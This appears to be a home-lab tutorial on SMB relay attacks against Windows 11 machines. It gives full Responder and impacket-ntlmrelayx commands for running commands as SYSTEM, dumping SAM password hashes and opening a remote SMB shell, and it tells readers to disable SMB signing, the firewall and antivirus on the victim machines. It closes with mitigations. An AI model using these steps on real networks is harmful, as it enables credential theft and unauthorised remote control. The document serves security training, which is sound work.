








# SMB Relay Attacks

We can accomplish several goals via SMB relay attacks, such as:
* Executing commands on a target host
* Dump SAM hashes from a target host
* Gain shell access on a target host

In order for a target host to be vulnerable to SMB relay, it must **not** enforce and/or enable SMB message signing.

## VMs Involved in the Attack
In our scenario, we will have **three** VMs running at the same time:
* Kali Linux (later referred to as Attacker VM)
* Windows 11 user machine 1 (Phantom VM)
* Windows 11 user machine 2 (Scooby VM)

## Discovering Vulnerable Hosts
We can use **Nmap** and its scripting engine to find vulnerable hosts. On our attacker VM, run the command `nmap --script=smb2-security-mode.nse -p445 [IP range]`

The Nmap Scripting Engine (NSE) runs the script **smb2-security-mode.nse** which queries SMB2/SMB3 servers to report their configuration, specifically *whether message signing is disabled, enabled, or required*.

In case the scans fail, open a Powershell terminal as Administrator and *disable the Windows Firewall* on each of the user machines: `Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False`

Vulnerable hosts should have a response similar to:
```text
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

Save the IP addresses of all vulnerable hosts in a file (such as SMB-targets.txt). This will be used later.

### Ensuring Windows Machines are Vulnerable to SMB Relay Attacks
If any of your Windows machines respond with the message **Message signing enabled and required**, you will need to disable SMB signing using the *Group Policy Editor*.

1. Open the Group Policy Editor by pressing *Win + R* then entering **gpedit.msc** and hit enter.
2. Navigate to *Computer Configuration > Windows Settings > Security Settings > Local Policies > Security Options*
3. Find these policies out of the list:
    * Microsoft network server: Digitally sign communications (always)
    * Microsoft network server: Digitally sign communications (if client agrees)
    * Microsoft network client: Digitally sign communications (always)
    * Microsoft network client: Digitally sign communications (if server agrees)
4. Double-click the policy, set it to **Disabled**, then click *Apply* then *OK*.



Both Windows machines' *Virus & threat protection settings* may also need to be edited. I turned **off** all settings listed in order to ensure the attacks are successful.

## Attack Setup
Once we have a list of vulnerable hosts, we can install and launch our attack tools on our attacker VM. The two tools used in this scenario are [Responder](https://github.com/lgandx/Responder) and [impacket-ntlmrelayx](https://www.kali.org/tools/impacket-scripts/#impacket-ntlmrelayx). 

**Responder** acts as a rogue authentication server and responds to client attempts to resolve a non-existent hostname. It answers client authentication requests, pointing to the *attacker IP* and captures the client's credentials. **Impacket-ntlmrelayx** will then relay the connection attempts to the targets listed in the targets file (SMB-targets.txt).

Before continuing, **Responder's** configuration (/etc/responder/Responder.conf) needs to be edited. We will disable SMB and HTTP server responses, as these will be forwarded to **ntlmrelayx** to be relayed.

Edit the lines SMB and HTTP under *Servers to start* to **Off**. For me, they were lines 13 and 21.



For each of these attacks, be sure to launch *impacket-ntlmrelayx* before *Responder* to limit any conflicts between the tools.

## Attack 1: Executing Commands on a Target
The attack has three main steps:
1. Launch impacket-ntlmrelayx, specifying the targets list and command to execute
2. Launch Responder, specifying the network interface
3. On the victim VM, try to access a network share hosted by the attacker IP using the Windows File Explorer address bar 

Launch *impacket-ntlmrelayx* to wait for connections to relay. The full command to use is: `impacket-ntlmrelayx -tf SMB-targets.txt -smb2support -c "[COMMAND HERE]"`.

We provide the command to be executed on the target with the **-c** flag. In my example, I executed *whoami* on the target: `impacket-ntlmrelayx -tf SMB-targets.txt -smb2support -c "whoami"`.

When successfully started, you should see a message **Servers started, waiting for connections**.

Then start *Responder* in a separate terminal window using the command `sudo responder -I [INTERFACE] -d On -w On -v`. A breakdown of the flags is below:
* **-I**: Interface that Responder will use to monitor and send poisoned responses
* **-d**: Enables DHCPv4 poisoning (to inject Web Proxy Auto-Discovery [WPAD] settings in DHCP responses)
* **-w**: Starts the WPAD rogue proxy server; allows Responder to answer requests and capture credentials from traffic
* **-v**: Running Responder in verbose mode

Responder may throw errors about ports 135, 5985 and 5986. This is because ntlmrelayx has already started servers on those ports. Everything should still run as intended.

When successfully started, you should see the message **Listening for events...**.

Now on the Victim VM (in my case was the Phantom VM), open *Windows File Explorer*. In the address bar, enter **\\\\[ATTACKER VM IP]** as if we were trying to access a network share on that machine. This will start the attack.



You will get a *Network Error* in response, as the attacker's network share does not exist. You can ignore this.



In the *impacket-ntlmrelayx* terminal window, you should see evidence of successful connection to a target (smb://[TARGET IP SUCCEED]) and "Executed specified command on host". The output of that command should also be provided. (In my case was **nt authority\system**).



## Attack 2: Dumping a Target's SAM Hashes
The attack has three main steps:
1. Launch impacket-ntlmrelayx, specifying the targets list
2. Launch Responder, specifying the network interface
3. On the victim VM, try to access a network share hosted by the attacker IP using the Windows File Explorer address bar 

Like Attack 1, we start by launching *impacket-ntlmrelayx* to wait for connections to relay. The full command to use is: `impacket-ntlmrelayx -tf SMB-targets.txt -smb2support`. No other options are needed to dump SAM hashes.

Next launch *Responder* using the command `sudo responder -I [INTERFACE] -d On -w On -v`. Again, ignore errors about ports 135, 5985 and 5986.

Finally, open *Windows File Explorer* on the victim VM and enter **\\\\[ATTACKER VM IP]** in the address bar. Again, ignore the Network Error thrown here.

In the *impacket-ntlmrelayx* terminal window, you should see evidence of successful connection to a target (smb://[TARGET IP SUCCEED]) and "Dumping local SAM hashes (uid:rid:lmhash:nthash)". You should see a dump of user hashes in the output.



## Attack 3: Gaining SMB Shell Access on a Target
The attack has three main three steps:
1. Launch impacket-ntlmrelayx, specifying the targets list
2. Launch Responder, specifying the network interface
3. On the victim VM, try to access a network share hosted by the attacker IP using the Windows File Explorer address bar 

Like the last two attacks, we start by launching *impacket-ntlmrelayx* to wait for connections to relay. The full command to use is: `impacket-ntlmrelayx -tf SMB-targets.txt -smb2support -i`. The **-i** flag is needed to start an *interactive shell* on the target host.

Next launch *Responder* using the command `sudo responder -I [INTERFACE] -d On -w On -v`. Again, ignore errors about ports 135, 5985 and 5986.

In the *impacket-ntlmrelayx* terminal window, you should see evidence of successful connection to a target (smb://[TARGET IP SUCCEED]) and "Started interactive SMB client shell via TCP on 127.0.0.1:11000".



We can connect to this shell using `nc 127.0.0.1 11000`. We can use `help` to see all the available commands to run on the remote host.



## Mitigating SMB Relay Attacks
1. Enforce SMB signing on all devices to prevent NLTM authentication messages from being intercepted

This can be accomplished with a **Group Policy**:
Using **gpedit.msc** we can find the exact option nested under *Computer Configuration > Windows Settings > Security Settings > Local Policies > Security Options*.

For the server, enable:
* Microsoft network server: Digitally sign communications (always)
* Microsoft network server: Digitally sign communications (if client agrees)

For the client, enable:
* Microsoft network client: Digitally sign communications (always)
* Microsoft network client: Digitally sign communications (if server agrees)

2. Disable NTLM authentication wherever possible
    * This mitigation technique has one disadvantage - if more secure protocols (such as Kerberos) stop working, Windows will default back to NTLM authentiation.

3. Remove SMB 1.0 from all Windows Servers and clients that don't require it. *SMB 1.0 should no longer be installed by default for Windows 11.*

### Sources
* https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/ 
* https://www.semperis.com/blog/how-to-defend-against-ntlm-relay-attack/
* https://learn.microsoft.com/en-us/windows-server/storage/file-server/smb-interception-defense?tabs=group-policy 
